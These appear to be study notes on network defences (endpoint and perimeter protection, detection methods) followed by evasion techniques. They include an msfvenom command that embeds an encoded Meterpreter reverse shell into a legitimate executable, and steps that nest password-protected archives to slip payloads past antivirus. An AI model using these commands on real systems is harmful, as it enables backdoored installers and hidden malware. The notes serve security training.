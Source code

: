 ## **Protection Mechanisms**

**1. Endpoint Protection**

- **Definition**: Protects individual hosts (PCs, workstations, servers).
- **Components**:
    - Antivirus
    - Antimalware
    - Firewall
    - Anti-DDOS
- **Examples**: Avast, BitDefender, Malwarebytes

**2. Perimeter Protection**

- **Definition**: Secures the network boundary via physical/virtual devices (e.g., firewalls, IDS/IPS).
- **Zones**:
    - **Public Zone**: Internet-facing
    - **Private Zone**: Internal network
    - **DMZ (De-Militarized Zone)**: Intermediate zone for public-facing servers

## **Security Policies**

- Drive the network’s security posture.
- Function like **Access Control Lists (ACLs)**.

### **Types of Policies**:

- **Network Traffic Policies**: Control packet flow.
- **Application Policies**: Regulate app behavior.
- **User Access Control**: Manage user permissions.
- **File Management**: Handle file access and movement.
- **DDoS Protection**: Mitigate large-scale attacks.

### **Detection Techniques**:

|**Technique**|**Description**|
|---|---|
|**Signature-based**|Matches packets to known attack signatures.|
|**Heuristic/Anomaly-based**|Detects deviations from baseline behavior.|
|**Stateful Protocol Analysis**|Compares protocol behavior against accepted norms.|
|**Live Monitoring (SOC)**|Security analysts monitor network in real-time.|

## **Evasion Techniques**

Modern defenses (AV, IDS/IPS) detect malicious activity through **signature-based detection**. To bypass these, attackers use **encryption**, **payload obfuscation**, and **tunneling**.

### **Techniques for Bypassing Detection**:

1. **Encryption**:
    - Use **AES-encrypted tunnels** (via Meterpreter) to hide communication.
2. **Backdoored Executables**:
    - Use **msfvenom** to inject payloads into legitimate executables (e.g., installers).
    - Example command:
        
        ```bash
        msfvenom windows/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -k -x <exe-file> -e x86/shikata_ga_nai -i 5 -o <output-file>
        ```
        
    - **Flag Breakdown**:
        - `-k`: Keep original executable functionality.
        - `-e`: Encoder (e.g., **x86/shikata_ga_nai**) to obfuscate payload.
        - `-i`: Number of encoding iterations.

## **Archiving Payloads**

**Archiving + Password-Protecting** payloads can bypass some AV checks. However, this raises alarms due to the inability to scan the file.

### **Steps to Archive a Payload**:

1. **Create a Password-Protected Archive**:
    
    ```bash
    rar a test.rar -p test.js
    ```
    
2. **Remove the Extension**:
    
    ```bash
    mv test.rar test
    ```
    
3. **Re-archive** the file and repeat step 2:
    
    ```bash
    rar a test2.rar -p test
    mv test2.rar test2
    ```
    


## **Summary of Key Commands**

|**Command**|**Description**|
|---|---|
|`msfvenom windows/x86/meterpreter_reverse_tcp`|Generate a reverse shell payload.|
|`-k`|Keep original functionality of the executable.|
|`-e x86/shikata_ga_nai`|Use Shikata Ga Nai encoder.|
|`rar a <archive-name>.rar -p <file>`|Create a password-protected archive.|
|`mv <file>.rar <new-file-name>`|Remove the archive extension.|

### **Key Concepts to Remember**

- **Endpoint Protection**: Protects individual devices.
- **Perimeter Protection**: Secures network boundaries.
- **Evasion**: Use encryption, obfuscation, and backdoored executables to bypass detection.
- **Archiving Payloads**: Password-protected archives can evade AV but may raise admin alerts.